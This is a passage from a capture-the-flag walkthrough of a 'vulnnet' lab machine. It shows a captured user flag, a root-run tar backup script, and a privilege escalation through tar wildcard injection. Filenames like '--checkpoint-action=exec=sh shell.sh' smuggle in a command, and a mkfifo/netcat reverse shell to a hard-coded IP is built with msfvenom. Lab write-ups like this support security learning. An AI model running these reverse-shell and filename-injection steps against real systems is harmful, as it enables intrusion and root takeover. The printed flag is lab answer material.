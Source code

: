 ```
server-management@vulnnet:~$ cat user.txt
THM{907e420d979d8e2992f3d7e16bee1e8b}
```

We can use `linpeas` to check for a way to get into root:

![Pasted image 20250402132806.png](../../IMAGES/Pasted%20image%2020250402132806.png)

```
server-management@vulnnet:~$ cat /var/opt/backupsrv.sh
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup.
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```

This command backs upÂ **all files**Â in the directory. Since we control files inÂ `/home/server-management/Documents`, we can inject malicious filenames thatÂ `tar`Â interprets as command-line arguments (e.g.,Â `--checkpoint-action`Â to execute arbitrary code). Let's reproduce the following in order to get a root shell:

```
# Let's begin by generating a netcat reverse shell using msfvenom
msfvenom -p cmd/unix/reverse_netcat lhost=10.6.34.159 lport=9001 R
echo '#!/bin/bash' > shell.sh
echo "mkfifo /tmp/bqauesy; nc 10.6.34.159 9001 0</tmp/bqauesy | /bin/sh >/tmp/bqauesy 2>&1; rm /tmp/bqauesy" >> shell.sh # Replace contents with the generated by 
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
chmod +x shell.sh
nc -lvnp PORT
```
